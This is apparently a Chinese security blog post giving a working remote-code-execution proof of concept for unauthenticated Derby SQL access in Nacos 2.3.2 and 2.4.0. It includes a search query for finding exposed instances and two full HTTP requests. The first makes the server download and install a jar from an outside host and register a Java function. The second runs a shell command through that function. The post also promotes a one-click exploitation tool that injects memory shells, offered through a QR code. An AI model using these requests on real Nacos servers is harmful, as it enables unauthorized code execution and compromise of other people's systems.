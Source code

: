 #  Nacos Derby Sql注入RCE（常规出网）   
原创 SXdysq  南街老友   2024-07-17 20:47  
  
**漏洞描述**  
  
Nacos derby存在远程代码执行漏洞，由于Alibaba Nacos部分版本中derby数据库默认可以未授权访问，恶意攻击者利用此漏洞可以未授权执行SQL语句，从而远程加载恶意构造的jar包，最终导致任意代码执行。  
  
**影响版本**  
```
nacos 2.3.2
nacos 2.4.0
```  
  
  
**网络测绘**  
```
app="NACOS"
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dfviaLov8RtAlExL3MPopGic4UMlrl6ZmuEjVnBVfQnICaBty4TqBSbRmy0djUe8jXUQL2RlOcYORzXYGLmTfWJg/640?wx_fmt=png&from=appmsg "")  
  
**漏洞Poc**  
```
POST /nacos/v1/cs/ops/data/removal HTTP/1.1
Host: 10.211.55.6:8848
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate, br
Accept: */*
Content-Type: multipart/form-data; boundary=ac782d2c643a8b33dc0950fdc87cf06c
Content-Length: 501

--ac782d2c643a8b33dc0950fdc87cf06c
Content-Disposition: form-data; name="file"; filename="file"

CALL sqlj.install_jar('http://192.168.0.103:5000/download', 'NACOS.GiRyNcWh', 0)

            CALL SYSCS_UTIL.SYSCS_SET_DATABASE_PROPERTY('derby.database.classpath','NACOS.GiRyNcWh')

            CREATE FUNCTION S_EXAMPLE_GiRyNcWh( PARAM VARCHAR(2000)) RETURNS VARCHAR(2000) PARAMETER STYLE JAVA NO SQL LANGUAGE JAVA EXTERNAL NAME 'test.poc.Example.exec'

--ac782d2c643a8b33dc0950fdc87cf06c--

```  
```
GET /nacos/v1/cs/ops/derby?sql=select+%2A+from+%28select+count%28%2A%29+as+b%2C+S_EXAMPLE_ymLfaFog%28%27whoami%27%29+as+a+from+config_info%29+tmp+%2F%2AROWS+FETCH+NEXT%2A%2F HTTP/1.1
Host: 10.211.55.6:8848
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate, br
Accept: */*

```  
  
  
**漏洞复现**  
  
目前已实现工具一键利用（漏洞Check、命令执行、打入内存马）  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dfviaLov8RtAlExL3MPopGic4UMlrl6ZmuUgCibuevkRJe9o4jAo8wZwVRPCyT9rcQjyt77xS9RiaFt0Lia7RImUwXQ/640?wx_fmt=png&from=appmsg "")  
  
**工具获取**  
  
扫码加入获取利用工具，不定时更新poc与利用工具。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dfviaLov8RtAlExL3MPopGic4UMlrl6ZmuxuohAjynFZYHFGFYRjwuQkw3aaDaSvZzeAIsYMGuYsNOryLicLYsH4g/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dfviaLov8RtAlExL3MPopGic4UMlrl6ZmuUWfzFdrFqYmTw5dBCp0ibmblUr4bBK2HibGPHwRMVtJvXdw1y1cvfmaQ/640?wx_fmt=png "")  
  
**🍻🍻🍻🍻🍻🍻**  
```
追梦路上，唯一的失败是放弃；唯一的成功是坚持。
你现在所浪费的每一分每一秒，都是别人未来所追求的时光。
生活不是等待风暴过去，而是学会在雨中翩翩起舞。
每一个不曾起舞的日子，都是对生命的辜负。
不要因为走得太远，忘了我们为什么出发。
努力不一定成功，但放弃一定失败。
当你觉得为时已晚时，恰恰是最早的时候。
你若盛开，清风自来。
成功的秘诀在于坚持不懈地追求。
相信自己，坚信自己的目标，去承受常人无法承受的磨难与挫折。
阳光总在风雨后，请相信有彩虹。
梦想是注定孤独的旅行，路上少不了质疑和嘲笑，但那又怎样。
没有伞的孩子必须努力奔跑。
没有比人更高的山，没有比脚更长的路。
时间是治疗心灵创伤的大师，但绝不是解决问题的高手。
你的心态就是你真正的主人。
把自己当成太阳去照亮别人，同时也温暖自己。
```  
  
  
  
  
  
  
  

